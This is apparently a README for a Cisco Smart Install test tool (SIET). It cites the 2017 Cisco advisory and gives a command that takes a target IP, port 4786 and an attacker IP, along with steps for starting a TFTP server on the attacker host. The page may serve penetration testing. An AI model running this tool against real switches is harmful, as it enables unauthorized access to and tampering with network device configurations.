 # cisco_smart_install

Source: https://github.com/Sab0tag3d/SIET

Reference: https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-20170214-smi

## How to use

python cisco_smart_install_test.py <target_ip> <target_port> <attacker_ip>

Example: python cisco_smart_install_test.py 192.168.1.2 4786 192.168.1.3

## Start an TFTP server

sudo /etc/init.d/atftpd start

TFTP root directory:

/srv/tftp/

